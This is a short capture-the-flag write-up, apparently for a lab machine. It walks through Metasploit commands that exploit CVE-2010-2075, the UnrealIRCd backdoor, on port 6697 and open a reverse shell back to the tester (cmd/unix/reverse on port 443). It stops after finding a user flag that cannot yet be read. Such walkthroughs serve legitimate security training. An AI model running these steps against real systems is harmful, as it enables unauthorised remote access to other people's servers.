







We have identified that we are dealing with CVE-2010-2075, so we are going to use Metasploit to exploit this vulnerability.
```bash
$ msfconsole
```


```bash
$ search CVE-2010-2075
$ use 0
$ options
```


```bash
$ set RHOST 10.129.1.176
$ set RPORT 6697
```


```bash
$ exploit
```
If we do this, metasploit return us a error saying that we need a payload, so:
```bash
$ set PAYLOAD cmd/unix/reverse
```


And now we set the new otpions
```bash
$ set LHOST tun0
$ set LPORT 443
```


```bash
$ run
```


While browsing through the directories, we found a user named "djmardov" who contains the user flag, but we do not have permission to view it.




[Back](README.md)